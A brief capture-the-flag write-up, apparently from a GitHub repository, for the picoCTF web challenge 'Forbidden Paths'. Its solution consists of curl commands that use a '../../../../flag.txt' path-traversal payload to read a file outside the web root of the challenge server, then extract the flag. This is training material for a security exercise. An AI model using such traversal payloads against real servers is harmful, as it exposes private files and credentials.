



# [Forbidden Paths [Web Exploitation] [200 Points] #

## Description ##
Can you get the flag?

We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. 

Can you get past the filter to read the flag?

Here's the website.

## Hints ##

## Solution ##

### Step 1: Description ###

    curl -d 'filename=../../../../flag.txt' http://saturn.picoctf.net:62822/read.php

    curl -d 'filename=../../../../flag.txt' http://saturn.picoctf.net:62822/read.php | grep -oE 'picoCTF{.*}' | tee >(xsel -b)

